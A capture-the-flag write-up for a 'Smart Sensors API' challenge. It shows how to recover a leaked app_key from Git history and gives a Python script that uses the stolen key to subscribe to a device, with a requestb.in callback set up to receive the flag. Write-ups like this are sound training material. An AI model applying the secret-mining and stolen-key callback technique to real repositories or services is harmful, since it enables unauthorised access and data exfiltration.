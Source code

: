 # WriteUp - Smart Sensors API

In this challenge you get an incomplete Git repository. 
First, you try to understand what's going on.

You begin with a `git status` to list current changes to the repository. 
But you find nothing in this list.

Then you want to know more about the repository so you try a `git log`.
And you check commit messages. You can read the code and you will quickly understand 
that wrappers require access before allowing flask handlers to continue.

You also find an `app_key` when doing a `git diff` on a commit before a commit having a 
message containing the developper blaming himself: `Ooohhh... dumb...`

When its done you can use the API as if you were a legitimate user. Last thing is to find 
the flag.

In order to achieve this you'll find that multiple devices have been hacked using route 
`/report`.

Yet, you won't find anything like a flag subscribing to these devices, just funny messages.

One device is the FlagRaiserOne as you can expect it this is the one which will give you 
the flag.

Subscribe to it using the following script : 
```python
#!/usr/bin/env python3
# -!- encoding:utf8 -!-

import requests

CALLBACK = 'http://requestb.in/<your_request_bin_id_here>'
DEV_EUI = '<device_eui_here>'
API_KEY = '<stolen_api_key_here>'

resp = requests.post('http://<smart_sensors_api_domain+port>/report/subscribe', 
        data={'api_key':API_KEY, 'callback':CALLBACK, 'dev_eui':DEV_EUI})
print(resp.text)

```

If this script runs correctly you'll receive the flag in your bin.
